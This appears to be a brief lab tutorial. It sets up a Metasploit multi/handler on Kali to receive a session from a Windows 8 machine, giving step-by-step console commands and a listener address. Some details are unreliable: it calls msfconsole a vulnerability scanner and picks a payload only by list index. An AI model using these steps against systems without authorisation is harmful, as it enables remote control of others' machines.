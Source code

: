 ## STEP:

Check your **IP ADDRESS** for both your kali and your windows8 system ensure to ping to both devices and get a response, go to your kali and start your **POSTGRESQL START** and also your **MSFDB INIT** service.


- **START YOUR MSFCONSOLE**: it primary a command line used to scan target system for known vulnerabilities. 

- **SEARCH MULTI/HANDLER**.

- **USE 7**.

- **SHOW PAYLOADS**.

- **SET PAYLOAD 1315**.

- **SHOW OPTIONS**.

- **SET LHOST TO YOUR IP ADDRESS 192.168.0.15**.

- **SHOW OPTIONS.**

- **EXPLOIT -j**

- **RUN**

TYPE HELP FOR OTHER OPTIONS ON YOUR WINDOWS SYSTEM.

### contribute:
feel free to share your own experience 

### MICHAEL22



